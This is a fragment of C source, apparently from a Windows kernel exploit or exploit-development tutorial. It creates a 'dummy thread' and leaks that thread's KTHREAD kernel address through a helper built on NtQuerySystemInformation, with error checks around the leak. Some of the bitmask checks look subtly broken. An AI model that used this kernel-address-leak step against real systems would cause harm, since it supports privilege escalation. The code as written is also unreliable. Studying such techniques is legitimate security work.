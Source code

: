 ```c
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't create the \"dummy thread\". Error: 0x%lx\n", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Created the \"dummy thread\"!\n");

	//
	// Invoke leakKTHREAD()
	//
	ULONG64 kthread = leakKTHREAD(getthreadHandle);

	//
	// Error handling (Negative value? NtQuerySystemInformation returns a negative NTSTATUS if it fails)
	//
	if ((!kthread & 0x80000000) == 0x80000000)
	{
		//
		// Print update
		// kthread is an NTSTATUS code if execution reaches here
		//
		printf("[-] Error! Unable to leak the KTHREAD object of the \"dummy thread\". Error: 0x%llx\n", kthread);

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Error handling (kthread isn't negative - but is it a kernel-mode address?)
	//
	else if ((!kthread & 0xffff00000000000) == 0xffff00000000000 || ((!kthread & 0xfffff00000000000) == 0xfffff00000000000))
	{
		//
		// Print update
		// kthread is an NTSTATUS code if execution reaches here
		//
		printf("[-] Error! Unable to leak the KTHREAD object of the \"dummy thread\". Error: 0x%llx\n", kthread);

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
```